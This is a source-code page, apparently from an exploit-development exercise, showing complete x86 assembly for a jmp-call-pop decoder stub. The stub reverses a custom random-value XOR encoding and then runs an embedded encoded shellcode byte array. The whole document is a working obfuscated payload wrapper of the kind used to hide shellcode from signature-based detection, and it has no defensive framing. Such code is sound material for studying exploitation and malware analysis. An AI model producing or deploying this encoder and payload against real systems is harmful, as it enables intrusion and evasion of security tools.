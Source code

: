 ## Whole Assembly code
``` assembly
global _start
section .text

_start:                                 ;jmp call pop
    jmp short call_shellcode

decoder:
    pop esi    
    xor ebx, ebx                        ;bh = how many blocks are already decrypted with the random value, bl = for loading, XORing and storing bytes
    xor ecx, ecx                        ;ecx is index of the encrypted shellcode
    xor edx, edx

decode:
	mov bh, 0xff
	inc bh                              ;setting only bh register to 0
	xor eax, eax                        ;setting eax to 0
    mov al, 0xff                        ;storing 0xff in al
    sub al, byte [esi+ecx]              ;substracting 0xff - randomValueByteEncrypted = used random value

randomRound:
	inc ecx                             ;increase index of encrypted shellcode because we decrypted last byte (shellcode or random number)
	cmp bh, al                          ;if we already XORed the amount of bytes what our randomValue says
	jz short decode                     ;we have to get the next randomValue and job to the top
                                        ;if not:
	mov bl, [esi+ecx]                   ;load the next encrypted byte to the bl register
	xor bl, al                          ;xor bl with the random value
	mov byte[esi+edx], bl               ;store the xored byte at the following position of the last stored and xored byte

    cmp dword [esi + edx -3], 0xbbaa9090    ;check if the last 4 bytes are the defined ending
    jz short EncodedShellcode               ;then execute decoded shellcode
    
    inc edx                                 
    inc bh
    jmp short randomRound

call_shellcode:
    call decoder                    
                                            ;encoded shellcode from the python script output                          
    EncodedShellcode: db 0xfd, 0x33, 0xc2, 0xf9, 0x56, 0x6e, 0x29, 0x29, 0x75, 0x6e, 0xfa, 0x6d, 0x2a, 0x67, 0x6c, 0x6b, 0xfc, 0x8a, 0xe0, 0x53, 0xfd, 0x8b, 0xe0, 0xfc, 0x50, 0x8a, 0xe2, 0xf9, 0xb6, 0xd, 0xcb, 0x86, 0x96, 0x96, 0xfd, 0xa8, 0xb9
```